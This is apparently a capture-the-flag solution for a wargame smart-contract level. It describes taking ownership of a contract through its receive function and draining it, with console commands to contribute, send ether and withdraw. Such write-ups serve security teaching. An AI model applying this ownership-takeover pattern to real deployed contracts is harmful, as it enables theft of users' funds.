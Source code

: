 ### Description

Take ownership of the contract and reduce balance to 0

### Solution

The receive function of the contract is the attack point, when contributing more than 0 and then using this function it transfers ownership, after this you can withdraw the funds

## Commands

await contract.contribute({value: 0.01})
sendTransaction({to: instance, from: player, value: 0.0009})
await getBalance(instance) // Has eth
await contract.withdraw()
await getBalance(instance) // Eth has been withdrawed
